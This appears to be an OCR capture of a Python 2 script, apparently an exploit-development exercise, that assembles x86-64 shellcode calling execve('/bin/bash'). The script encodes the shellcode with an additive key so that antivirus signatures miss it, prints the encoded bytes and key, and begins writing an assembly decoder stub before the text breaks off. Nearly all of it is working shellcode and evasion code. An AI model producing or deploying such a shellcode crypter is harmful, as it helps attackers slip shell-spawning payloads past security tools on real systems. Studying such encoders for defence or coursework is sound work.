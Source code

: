 ```python
payload += "\x52"             # push rdx
payload += "\x48\xba\x2f\x62\x69\x6e\x2f\x62\x61\x73" 
           # movabs rdx, 0x7361622f6e69622f ; "/bin/bas"
payload += "\x52"             # push rdx
payload += "\x48\x31\xd2"     # xor rdx, rdx
payload += "\x48\x89\xe7"     # mov rdi, rsp  ; rdi = Pointer -> "/bin/bash"0x00
payload += "\xb0\x3b"         # mov al, 0x3b  ; execve syscall number
payload += "\x0f\x05"         # syscall       ; call execve("/bin/bash", NULL, NULL)

key = "SoSecr3T"
encrypted = ""
keyArray = bytearray(key)
keyLength = len(key)

count1 = 0
count2 = 0

for x in bytearray(payload): 
    if count1 == keyLength:   # If key length is exceeded, reuse the key
        count1 = 0
    x += keyArray[count1]	  # Add payload 1st byte and key together
    if x > 255:               # check for overflow
        x -= 256		
    if count2 == 0:
        encrypted += '0x'
        encrypted += '%02x' %x
    else:
        encrypted += ',0x'
        encrypted += '%02x' %x
    count1 += 1
    count2 += 1

encrypted += ',0xaa,0xbb'

print "[--------------Encrypted-Payload--------------]"
print "Encryped Payload Size is: "+ str(hex(len(payload)+2)) + " Bytes"
print encrypted

keyHex = ""
count  = 0
for x in keyArray:
    if count == 0:
        keyHex += '0x'
        keyHex += '%02x' %x
    else:
        keyHex += ',0x'
        keyHex += '%02x' %x
    count += 1

keyHex += ',0xee' # End of key byte

print "[----------------Key-Info---------------------]"
print "Key Size is: "+ str(keyLength) + " Bytes"
print keyHex


# Write Assembly Code to a File

asmFile  = 'xor rcx, rcx  ; rcx = 0x0\r\n'
asmFile += 'mul rcx       ; rax&rdx = 0x0\r\n'
asmFile += 'jmp short callEncrypted\r\n'
asmFile += 'popEncrypted:\r\n'
asmFile += 'pop rdi       ; rdi = &Encrypted\r\n'
```